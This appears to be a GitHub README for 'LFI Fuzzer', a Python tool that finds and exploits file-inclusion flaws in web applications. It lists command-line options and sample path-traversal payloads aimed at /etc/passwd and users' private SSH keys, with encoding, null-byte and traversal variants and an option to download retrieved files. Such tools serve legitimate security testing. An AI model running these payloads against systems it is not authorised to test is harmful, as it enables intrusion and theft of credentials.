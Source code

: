 # LFI Fuzzer
A script to find and exploit LFI/RFI vulnerabilities with handy options.


## How to use

Get a copy of lfi_fuzzer.py and lfi_list.txt or another wordlist
```
$ python lfi_fuzzer.py -u "http://localhost/?page=" -w lfi_list.txt
```

List arguments with -h or --help
```
$ python lfi_fuzzer.py -h
```


### Arguments

### Required arguments

##### -u / --url <URL>
##### -w / --wordlist <WORDLIST>


### Fuzz parameters

##### -t / --nb-parent <nb>
Number of directories we need to traverse up
Default : 10

##### -e / --encode <nb>
Number of URL encode passes
Default : none
```
without encode : ../../page_xx'xx
--encode 1 : ..%2F..%2Fpage_xx%27xx
--encode 2 : ..%252F..%252Fpage_xx%2527xx
```

##### -p / --path-prefix <prefix>
Real or fake path to add before anything in the payload
Default : none
```
--path-prefix xxx/ : xxx/../../etc/passwd
--path-prefix /var/www/html/ : /var/www/html/../../etc/passwd
```

##### -n / --append-null
Add a null charactacter at the end of the payload
Default : none


##### -m / --traversal-method <method>
Use various traversal methods
Default : 0
```
--traversal_method 0 : ../
--traversal_method 1 : ..//
--traversal_method 2 : ....//

--traversal_method 999
Path randomly generated : some payloads may just not work depending on HTTP servers, you should try a few times.
./..../.././///./././/..//..//././//../
```

##### -x / --var <value>
Replace `[VAR]` placeholder in a payload by your own value
Default : none
```
../../home/[VAR]/.ssh/id_rsa become :
../../home/Billy/.ssh/id_rsa

```

### Fuzzing actions

##### -s / --stress
Try everything against a single hardcoded payload (/etc/passwd) : between 6-10 directory parents, every encoding, every traversal method, and a few prefixes, including your own.

##### -o / --output
Just output payloads instead of try them

##### -d / --download <directory>
Enable downloading files


### Filters and sucess/error detection

##### -sc / --success-code
Default : 200

##### -ec / --error-code
Default : 400,403,404,500

##### -l / --min-length <length>
Minimum response length

##### -ss / --success-string <string>
Validating string to look for

##### -es / --error-string <string>
Failure string to look for
